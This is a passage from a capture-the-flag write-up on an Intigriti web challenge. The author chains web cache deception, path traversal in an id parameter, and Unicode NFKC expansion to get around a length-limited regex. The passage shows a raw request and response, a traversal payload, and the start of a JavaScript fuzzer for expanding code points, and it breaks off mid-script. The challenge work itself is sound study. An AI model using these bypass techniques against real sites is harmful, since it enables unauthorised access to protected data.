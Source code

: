 At this point, I knew exactly what to do. I can traverse the api endpoint and cache it via appending ```.js``` to the ```/view_protected_note``` endpoint, and this time, the response included a ```cache header```—something that wasn’t present before.

```
Request
GET /view_protected_note.js?id=6ee73608-fc10-45a1-8598-083db0453a08 HTTP/2
Host: challenge-0325.intigriti.io
Cookie: secret=xyz

Response
HTTP/2 200 OK
Date: Thu, 03 Apr 2025 19:16:04 GMT
Content-Type: text/html; charset=utf-8
Content-Security-Policy: frame-ancestors https://challenge-0325.intigriti.io; base-uri 'none';  object-src 'none'; frame-src 'none';
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer
Cache-Control: public, max-age=120, immutable
X-Middleware-Rewrite: /note/6ee73608-fc10-45a1-8598-083db0453a08?id=6ee73608-fc10-45a1-8598-083db0453a08
Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
Link: </_next/static/media/bb5902aa6a96ac55-s.p.woff2>; rel=preload; as="font"; crossorigin=""; type="font/woff2", </_next/static/css/f6e34344a1c2452b.css>; rel=preload; as="style"
X-Powered-By: Next.js
Strict-Transport-Security: max-age=31536000; includeSubDomains
```
I was confident that I was close to the solution—how naive I was 🫠. Excitedly, I attempted to traverse the route to``` /api/track```, but no matter what I tried, I could only reach ```/api/trac```. This was due to the regex restriction, which limited the last segment of the UUID to a maximum of 12 characters.

```
/view_protected_note.js?id=../73608-fc10-45a1-8598-/../api/trac
```

Once again, I found myself stuck. I started revisiting hints, searching for anything that might finally make sense. That’s when the previously mentioned hint clicked—I realized this had to do something with Unicode confusables.

My plan of action was clear: I needed to find a Unicode code point that expands into something usable—specifically, one that transforms from a single character into two characters upon normalization. For example, U+FB00 (ﬀ) expands to ff. The idea was that during regex validation, the length would remain within the 12-character limit, but as soon as normalization occurred, it would expand beyond that, reaching 13 characters—which is exactly what I needed.

I tried several Unicode characters from online sources, but none of them worked in my case. So, I quickly wrote a script to fuzz for viable candidates tailored to my specific scenario.

```js
const targetStrings = [
  "tr",
  "ap",
  "pi"
]; // Add more as needed

function fuzzUnicode() {
  const matches = {};
  targetStrings.forEach((str) => (matches[str] = []));

  for (let i = 0; i <= 0x10ffff; i++) {
    let char = String.fromCodePoint(i);
    targetStrings.forEach((target) => {
      if (char.normalize("NFKC") === target) {
        matches[target].push(`U+${i.toString(16).toUpperCase()} (${char})`);
```